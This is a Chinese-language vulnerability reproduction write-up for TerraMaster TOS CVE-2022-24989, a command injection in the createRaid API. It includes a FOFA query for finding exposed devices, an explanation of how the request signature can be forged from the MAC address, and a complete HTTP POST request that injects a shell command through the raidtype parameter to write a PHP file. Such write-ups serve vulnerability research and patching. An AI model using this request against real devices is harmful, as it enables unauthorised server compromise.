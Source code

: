 # TerraMaster TOS createRaid 远程命令执行漏洞 CVE-2022-24989

## 漏洞描述

TerraMaster TOS mobile.class.php文件的createRaid方法存在远程命令执行漏洞 ，攻击者配合 CVE-2022-24990漏洞可以获取服务器权限

## 漏洞影响

```
TerraMaster TOS < 4.2.31
```

## FOFA

```
"TerraMaster" && header="TOS"
```

## 漏洞复现

登录页面

![image-20220524153857771](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241538897.png)

查看 `mobile.class.php文件`中的 `createRaid方法`, 其中参数`raidtype和参数diskstring`均为可控参数

![1](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241540547.png)

注意这一行代码并跟踪 `volume_make_from_disks` 方法

```
$ret = $vol->volume_make_from_disks($this->in['raidtype'], $filesystem, $disks, $volume_size);
```

![2](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241540535.png)

可以看到方法调用中的 `$levek` 参数是可控参数，传入 `_backexec`方法中，可导致命令拼接执行恶意命令

![3](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241540532.png)

回到 `mobile.class.php` 文件开头的定义

```
static $notCheck = [
        "webNasIPS", "getDiskList", "createRaid", "getInstallStat", "getIsConfigAdmin", "setAdminConfig", "isConnected",'createid',
        'user_create','user_bond','user_release','login', 'logout', 'checkCode', "wapNasIPS"
    ];
    //不验证头信息是否匹配...
    static $notHeader = ["fileDownload", "videoPlay", "imagesThumb", "imagesView", "fileUpload", "tempClear", "wapNasIPS", "webNasIPS", "isConnected"];
    private static $U = null;
    private static $filter = array(".", "..", ".svn", "lost+found", "aquota.group", "aquota.user");
```

发现 `$notHeader` 数组中并不存在方法名 `createRaid`，看一下 api.php 中的定义

![4](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241540534.png)

```
$instance = new $class();
if (!in_array($function, $class::$notHeader)) {
    #防止请求重放验证...
    if (tos_encrypt_str($_SERVER['HTTP_TIMESTAMP']) != $_SERVER['HTTP_SIGNATURE'] || $_SERVER['REQUEST_TIME'] - $_SERVER['HTTP_TIMESTAMP'] > 300) {
        $instance->output("Illegal request, timeout!", 0);
    }
}
$instance->$function();
```

由于实例化的过程中存在验证请求头，所以需要通过if判断才能调用该方法进行命令执行

```
if (tos_encrypt_str($_SERVER['HTTP_TIMESTAMP']) != $_SERVER['HTTP_SIGNATURE'] || $_SERVER['REQUEST_TIME'] - $_SERVER['HTTP_TIMESTAMP'] > 300) {
        $instance->output("Illegal request, timeout!", 0);
    }
```

看到这里主要是两个参数值得关注: `HTTP_TIMESTAMP` 和 `HTTP_SIGNATURE`

跟踪方法 tos_encrypt_str 在源码中并没有找到，我们查看下php扩展函数列表

![image-20220524154207860](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241542899.png)

![6](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241540546.png)

下载这个 so文件使用 IDA打开 搜索字符串 `tos_encrypt_str`

![7](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241540062.png)

![8](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241540650.png)

跟进方法 `get_mac_addr`

![9](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241540673.png)

这里可以看到获取 `eth0网卡`的 `mac`，再经过 `php_sprintf`， 跟进下 `&ubk_38fa`

![10](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241540686.png)

实际上就是获取了 mac的最后3个字节, 例如mac地址为: 11.22.33.44.55.66, 经过后获取为 445566

![11](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241540675.png)

回到函数执行的地方，我们就可以知道，实际上这个函数等同于

```
# mac addr 11:22:33:44:55:66
tos_encrypt_str(xxxxxx) = md5(445566xxxxxx)
```

看看之前的判断代码

```
$instance = new $class();
if (!in_array($function, $class::$notHeader)) {
    #防止请求重放验证...
    if (tos_encrypt_str($_SERVER['HTTP_TIMESTAMP']) != $_SERVER['HTTP_SIGNATURE'] || $_SERVER['REQUEST_TIME'] - $_SERVER['HTTP_TIMESTAMP'] > 300) {
        $instance->output("Illegal request, timeout!", 0);
    }
}
$instance->$function();
```

TIMESTAMP参数为当前时间戳，这里的判断逻辑就很清楚了

```
md5(mac地址后三字节 + 当前时间戳) = $_SERVER['HTTP_SIGNATURE']
```

通过之前提到的漏洞 `CVE-2022-24990` 泄漏的 PWD和mac地址，我们就可以利用这个命令执行漏洞了, 通过刚刚的逻辑写POC获取信息

![12](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241540649.png)

在发送请求包写入 php恶意文件

```
POST /module/api.php?mobile/createRaid HTTP/1.1
Host: 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Authorization: $1$hq6UR8XW$ti.QT5f9wQQg1PcJFWdub/
Cache-Control: max-age=0
Content-Length: 82
Content-Type: application/x-www-form-urlencoded
Cookie: PHPSESSID=f1d33267c0ee0c34e9a348402205e272; tos_visit_time=1647670158
Signature: e856010781d0efd904d57ac40517859c
Timestamp: 1647678138
Upgrade-Insecure-Requests: 1
User-Agent: TNAS

raidtype=%3Becho+%22%3C%3Fphp+phpinfo%28%29%3B%3F%3E%22%3Evuln.php&diskstring=XXXX
```

![13](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241540638.png)

访问写入的文件

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241543426.png)